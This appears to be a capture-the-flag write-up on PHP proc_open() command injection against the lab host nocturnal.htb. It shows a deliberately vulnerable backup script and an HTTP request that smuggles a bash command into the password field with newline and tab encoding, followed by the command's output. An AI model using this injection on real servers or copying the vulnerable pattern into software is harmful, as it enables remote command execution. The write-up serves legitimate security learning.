 ## ✅ Exploiting PHP `proc_open()` Remote Code Execution:

`proc_open()` is a built-in function in PHP — and it's one of the most powerful (and dangerous) ways to execute system commands.

### 🔍 What is `proc_open()`?

- `proc_open()` is a powerful PHP function used to execute external system commands with full control over input/output streams.
- It provides access to **stdin**, **stdout**, **stderr**, environment variables, and allows asynchronous execution.
- Unlike `exec()`, `shell_exec()`, or `system()`, it enables building complex I/O pipelines between PHP and the command.
- It is highly flexible but also dangerous if user input is not sanitized — can lead to **command injection**.
- Always use `escapeshellarg()` or `escapeshellcmd()` to sanitize inputs before passing them to `proc_open()`.
- Prefer native PHP alternatives (like `ZipArchive`, `file_get_contents()`, etc.) whenever possible for safety and clarity.

## Vulnerable Code:

- The vulnerability occurs because the `$command` variable is built using unsanitized user input `($_POST['password'])`, which is directly concatenated into a shell command executed by `proc_open()`, leading to possible command injection.
```
<?php
if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }

        sleep(2);

        $logContents = file_get_contents($logFile);
        if (strpos($logContents, 'zip error') === false) {
            echo "<div class='backup-success'>";
            echo "<p>Backup created successfully.</p>";
            echo "<a href='" . htmlspecialchars($backupFile) . "' class='download-button' download>Download Backup</a>";
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>
```
## Exploitation:

- Request
```
POST /admin.php HTTP/1.1
Host: nocturnal.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://nocturnal.htb
Connection: keep-alive
Referer: http://nocturnal.htb/admin.php
Cookie: PHPSESSID=iqnvodhm7sq7n7keqcs1tds2op
Upgrade-Insecure-Requests: 1
Priority: u=0, i

password=0281649%0abash%09-c%09"id"&backup=
```
- Response

```
<pre>
sh: 2: backups/backup_2025-08-03.zip: not founbash: -c: option uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```
